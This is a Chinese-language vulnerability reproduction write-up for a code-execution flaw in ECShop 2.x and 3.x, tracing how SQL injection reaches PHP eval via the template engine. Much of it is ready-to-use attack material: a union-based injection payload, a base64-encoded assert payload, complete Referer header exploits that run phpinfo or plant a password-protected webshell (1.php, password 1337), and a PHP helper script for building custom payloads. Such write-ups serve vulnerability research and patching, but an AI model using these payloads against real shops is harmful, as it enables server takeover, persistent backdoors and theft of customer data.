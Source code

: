 ```yaml
---
title: "ECShop <= 2.7.x 代码执行漏洞"
id: zhfly2899
---
```


# ECShop <= 2.7.x 代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

![image](../img/315351a42101158884d8e475026cd7a6.png)

继续看fetch函数

![image](../img/15222025129f7fe93b99c1b5b34e71c0.png)

追踪_eval函数

![image](../img/bda32e1de990340a32bcabf84429ed4f.png)

$position_style变量来源于数据库中的查询结构

![image](../img/833281010a69127b5cd34b1d88811da2.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了 所以需要在id处构造注释来配合num进行union查询

![image](../img/f221e4066f4008b5692267e409b1cb74.png)

payload

```
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- - 
```

函数中有一个判断

![image](../img/0cf87b7a46edfe6e94127aef1db5a282.png)

我们 id传入’/*

num传入*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10– -就能绕过了

![image](../img/566268a3990dc9672fce637c26bd0809.png)

var_dump一下

![image](../img/3d4ca5bec9d0c3a524a90e295d3c7c00.png)

![image](../img/17bce7fc7001c17d55c85ebf25800af4.png)

再看fetch函数,传入的参数被fetch_str函数处理了

![image](../img/a900184e2f2f7f715035f1a952feebee.png)

追踪fetch_str函数，这里的字符串处理流程比较复杂

![image](../img/9bd3ff6fce74248001895cc898d07721.png)

```
return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source); 
```

这一行意思是比如$source是xxxx{$asd}xxx,那么经过这行代码处理后就是返回this->select(‘$asd’)的结果

看看select函数

![image](../img/387ba5e94b7fa8b2b80f0a270d9fde82.png)

第一个字符为$时进入$this->get_val函数

![image](../img/af9e246b62a4b343fd6037300336c75f.png)

我们$val没有.$又进入make_var函数

![image](../img/c4e46ca5bc7f4e0d7c3a1969a5b592fd.png)

最后这里引入单引号从变量中逃逸

![image](../img/be2f84284e3e7df488cd3ca731109938.png)

我们要闭合_var所以最终payload是

```
{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx 
```

会在网站跟目录生成1.txt 里面内容是getshell

![image](../img/751ffc79757ae2746d96208ab697d222.png)

### 2.x

phpinfo():

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca 
```

webshell:

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";} 
```

会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

webshell:

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

下面给出一个序列化的php脚本（第9个位置就是你想要的）：

```
<?php
$arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
echo serialize($arr);
?> 
```

## 参考链接

> https://cloud.tencent.com/developer/article/1333449